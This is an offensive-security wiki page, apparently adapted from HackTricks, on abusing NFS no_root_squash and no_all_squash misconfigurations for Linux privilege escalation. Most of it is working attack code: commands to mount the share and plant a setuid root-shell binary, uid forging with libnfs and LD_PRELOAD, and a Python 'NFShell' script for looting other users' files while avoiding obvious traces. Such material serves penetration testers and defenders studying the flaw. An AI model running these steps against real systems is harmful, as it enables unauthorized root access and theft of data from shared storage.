 # NFS no\_root\_squash/no\_all\_squash

## Theory

If you find some NFS directory that is configured as **no\_root\_squash**, then you can **access** it from **as a client** and **write inside** that directory **as** if you were the local **root** of the machine.

**no\_root\_squash**: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

**no\_all\_squash:** This is similar to **no\_root\_squash** option but applies to **non-root users**. Imagine, you have a shell as nobody user; checked /etc/exports file; no\_all\_squash option is present; check /etc/passwd file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
To enumerate the NFS server’s configuration, all we need to do is view the contents of the **/etc/exports** file.

```bash
$ cat /etc/exports
```

If you see a share with the **no\_all\_squash or no\_root\_squash** configuration, you may be able to exploit it.
{% endtab %}

{% tab title="Exploit - Remote" %}
To exploit this privilege escalation vector, we will :

* mount the share from another machine where you’re root
* place a setuid binary there
* on the victim machine, run the binary and get root

On the attacking machine, mount the vulnerable share:

```bash
#Attacker, as root user
mkdir /mnt/pe
mount -t nfs <IP>:<SHARED_FOLDER> /mnt/pe
```

Creat a setuid binary and copy it to the mounted share

```bash
# Attacker, as root user
## Create a SUID binary
echo 'int main() { setgid(0); setuid(0); system("/bin/bash -p"); return 0; }' > /tmp/root_shell.c
gcc /tmp/root_shell.c -o /tmp/root_shell

## Copy the binary and set the uid byte
cd /mnt/pe
cp /tmp/root_shell .
chmod +s root_shell
```

On the victime computer, as a low privilege user:

```bash
# Victime, as low privilege user
cd <SHAREDD_FOLDER>
./root_shell 
#ROOT shell
```

{% hint style="success" %}
You can copy the **/bin/bash** binary directly and give it SUID rights instead of compiling a new binary.
{% endhint %}
{% endtab %}

{% tab title="Exploit - Local" %}
If the `/etc/exports` has an explicit list of IP addresses allowed to mount the share, we won't be able to make the remote exploit and you will need to **abuse this trick and exploit no\_root\_squash/no\_all\_squash locally with an unprivileged user**.

When [listing the NFS shares](../../delivery/protocols/nfs.md#showmount), it will show IP allowed to mount the share:

```bash
$ showmount -e nfs-server
Export list for nfs-server:
/nfs_root   machine
```

{% hint style="info" %}
Another required requirement for the exploit to work is that **the export inside `/etc/export`** **must be using the `insecure` flag**.\
_I'm not sure that if `/etc/export` is indicating an IP address this trick will work_
{% endhint %}

This exploit relies on a problem in the NFSv3 specification that mandates that it’s up to the client to advertise its uid/gid when accessing the share. Thus it’s possible to fake the uid/gid by forging the NFS RPC calls if the share is already mounted!

#### Compiling the example <a href="#compiling-the-example" id="compiling-the-example"></a>

Here’s a [library that lets you do just that](https://github.com/sahlberg/libnfs). Depending on your kernel, you might need to adapt the example. In my case I had to comment out the fallocate syscalls.

```bash
# On local NFS server or computer that have access to the share
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```

#### Exploiting using the library <a href="#exploiting-using-the-library" id="exploiting-using-the-library"></a>

Let’s use the simplest of exploits:

```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

Place our exploit on the share and make it suid root by faking our uid in the RPC calls:

```bash
# On local NFS server or computer that have access to the share
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

All that’s left is to launch it:

```bash
# On local NFS server or computer that have access to the share
$ /mnt/share/a.out
# root shell
```
{% endtab %}
{% endtabs %}

### NFShell <a href="#bonus-nfshell" id="bonus-nfshell"></a>

Once local root on the machine, I wanted to loot the NFS share for possible secrets that would let me pivot. But there were many users of the share all with their own uids that I couldn’t read despite being root because of the uid mismatch. I didn’t want to leave obvious traces such as a chown -R, so I rolled a little snippet to set my uid prior to running the desired shell command:

{% tabs %}
{% tab title="NFShell" %}
```python
#!/usr/bin/env python
import sys
import os

def get_file_uid(filepath):
    try:
        uid = os.stat(filepath).st_uid
    except OSError as e:
        return get_file_uid(os.path.dirname(filepath))
    return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```

You can then run most commands as you normally would by prefixing them with the script:

```
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old

# ls -la ./mount/9.3_old/
ls: cannot open directory ./mount/9.3_old/: Permission denied

# ./nfsh.py ls --color -l ./mount/9.3_old/
drwxr-x---  2 1008 1009 1024 Apr  5  2017 bin
drwxr-x---  4 1008 1009 1024 Apr  5  2017 conf
drwx------ 15 1008 1009 1024 Apr  5  2017 data
drwxr-x---  2 1008 1009 1024 Apr  5  2017 install
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe" %}

{% embed url="https://www.errno.fr/nfs_privesc.html" %}

{% embed url="https://www.errno.fr/nfs_privesc.html" %}
